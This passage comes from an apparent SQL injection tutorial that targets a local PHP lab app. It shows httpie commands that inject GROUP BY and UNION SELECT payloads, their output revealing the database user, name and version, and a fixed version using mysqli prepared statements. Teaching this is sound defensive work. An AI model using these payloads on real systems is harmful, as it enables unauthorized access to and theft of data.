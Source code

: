 Identify the number of columns:
```
$ http "https://webdev.local/index.php?user=abc' GROUP BY 1-- -" --verify=no -b # no error
$ http "https://webdev.local/index.php?user=abc' GROUP BY 2-- -" --verify=no -b # no error
$ http "https://webdev.local/index.php?user=abc' GROUP BY 3-- -" --verify=no -b # no error
$ http "https://webdev.local/index.php?user=abc' GROUP BY 4-- -" --verify=no -b # will throw an error
```

Use `UNION SELECT` to extract data:
```
$ http "https://webdev.local/index.php?user=abc' UNION SELECT 1,2,3-- -" --verify=no -b
SELECT * FROM users WHERE user='abc' UNION SELECT 1,2,3-- -';Array
(
    [0] => Array
        (
            [0] => 1
            [1] => 2
            [2] => 3
        )

)
```

Use `UNION SELECT` to extract data (current user, database name, DBMS version):

```
$ http "https://webdev.local/index.php?user=abc' UNION SELECT user(),database(),@@version-- -" --verify=no -b
SELECT * FROM users WHERE user='abc' UNION SELECT user(),database(),@@version-- -';Array
(
    [0] => Array
        (
            [0] => app_user@php-fpm.dockero-dev_code-network
            [1] => app_db
            [2] => 10.4.12-MariaDB
        )

)
```

#### 6.4. Mitigation - MYSQLi prepared statements

Mitigated PoC code:

```php
$mysqli = new mysqli(
	"mysql",
	getenv('DB_APP_USER'), 
	getenv('DB_APP_PASS'), 
	getenv('DB_NAME')
);

$user = $_GET['user'];
// prepare
$query = $mysqli->prepare("SELECT * FROM users WHERE user=(?);");
// bind
$query->bind_param("s", $user);
//execute
$result = $query->execute();

if ($result) {
	print_r($query->get_result());
}

$mysqli->close();
```

